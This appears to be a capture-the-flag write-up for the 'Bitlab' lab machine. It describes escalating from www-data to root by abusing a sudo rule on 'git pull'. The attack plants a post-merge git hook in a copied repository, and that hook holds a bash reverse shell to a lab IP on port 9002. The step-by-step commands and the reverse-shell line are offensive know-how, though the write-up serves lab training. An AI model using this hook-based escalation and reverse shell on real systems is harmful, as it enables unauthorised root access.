 # Alternative way to exploit Bitlab

## Privilege Escalation

As the _index.php_ showed, the user _www-data_ has sudo permissions to run `git pull` as root:
```
sudo -l
```
```
User www-data may run the following commands on bitlab:
    (root) NOPASSWD: /usr/bin/git pull
```

With **Git Hooks** it is possible to trigger actions at certain points in gits execution.
More about this can be found in the `man` page:
```
man githooks
```

The hook _post-merge_ is invoked by `git merge`, which happens when a `git pull` is done on a local repository.
So when editing the hook, running the _post-merge_ command and then run a sudo command, it will run commands as root.

Copying the _profile_ directory to _/dev/shm_ as _www-data_ has no write access to it:
```
cp -r /var/www/html/profile/ /dev/shm/

cd /dev/shm/profile
```

Creating the hook in the _./git/hooks_ directory:
```
vim .git/hooks/post-merge

chmod +x post-merge
```

The code in the new _post-merge_ file is a bash reverse shell:
```
bash -c 'bash -i >& /dev/tcp/10.10.14.10/9002 0>&1'
```

When running `sudo git pull`, it will tell that the repository is up to date.
To run the command, the repository needs to have pending changes and this can be accomplished by creating a file on the **GitLab** on the _Profile_ repository and then merge the branches.

After creating a file, the command can be run with sudo privileges:
```
cd /dev/shm/profile

sudo git pull
```

The reverse shell command in _post-merge_ will also execute and the listener on my IP and port 9002 start a reverse shell session as root!
